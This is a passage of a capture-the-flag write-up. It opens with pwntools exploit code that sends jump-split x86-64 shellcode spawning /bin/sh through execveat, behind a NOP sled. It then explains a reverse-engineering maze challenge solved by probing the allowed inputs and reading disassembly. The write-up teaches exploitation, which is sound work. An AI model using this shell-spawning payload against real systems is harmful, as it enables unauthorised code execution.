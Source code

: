 ```python
sc = b''.join(map(p8, [0x6A, 0x42, 0xEB, 0x04, 0x00, 0x00, 0x00, 0x00, 0x58, 0xEB, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0xFE, 0xC4, 0xEB, 0x04, 0x00, 0x00, 0x00, 0x00, 0x48, 0x99, 0xEB, 0x04, 0x00, 0x00, 0x00, 0x00, 0x52, 0xEB, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0xBF, 0x2F, 0x73, 0x68, 0x00, 0xEB, 0x01, 0x00, 0x48, 0xC1, 0xE7, 0x10, 0xEB, 0x02, 0x00, 0x00, 0x66, 0x81, 0xCF, 0x69, 0x6E, 0xEB, 0x01, 0x00, 0x48, 0xC1, 0xE7, 0x10, 0xEB, 0x02, 0x00, 0x00, 0x66, 0x81, 0xCF, 0x2F, 0x62, 0xEB, 0x01, 0x00, 0x57, 0xEB, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x54, 0xEB, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x5E, 0xEB, 0x05, 0x00, 0x00, 0x00, 0x00, 0x00, 0x49, 0x89, 0xD0, 0xEB, 0x03, 0x00, 0x00, 0x00, 0x49, 0x89, 0xD2, 0xEB, 0x03, 0x00, 0x00, 0x00, 0x0F, 0x05, 0xEB, 0x04, 0x00, 0x00, 0x00, 0x00]))

sc = b'\x90' * len(ngee) + sc

io.send(sc)
io.interactive()
```

## rev/Oh, a Camel!

This was a very clutch solve. I was able to solve this challenge within the last 5 minutes of the competition.
We were given a program, *main.exe*, that would read from stdin and print some stuff depending on the input.
Turns out that the program is a maze puzzle, and the input is the path to solve the maze.
If the path is correct, the program will print the flag, using the solution as the key to calculate the flag.

For this program, it is easy to test what characters are allowed in the input.

```
# ./main.exe
As you pick up the scroll, the ground starts shaking! What is the path you'll take to leave the pyramid? A
You seem to have lost your sense of direction and have no idea what to do.
# ./main.exe
As you pick up the scroll, the ground starts shaking! What is the path you'll take to leave the pyramid? D
Wandering through the pyramid, you realise that you don't know where you are. All corridors look exactly the same...
```

In this case, `A` is not allowed and `D` is allowed.

Going through all the characters, I found that `LRUD` are allowed.

I then needed to look further into the program if we can do some kind of cheese solution.

My teammate, yqroo, noted that there is a point in execution where we can tell if we were on a walkable path or not.
Consider a maze with walls and paths. If we ever try to walk out of bounds or hit a wall, there is a state that we can detect.

```
000865f0  call    camlStdlib__Bytes__fold_left_270
000865f5  movzx   rbx, byte [rax-0x8]
000865fa  test    rbx, rbx
000865fd  je      0x86604
```
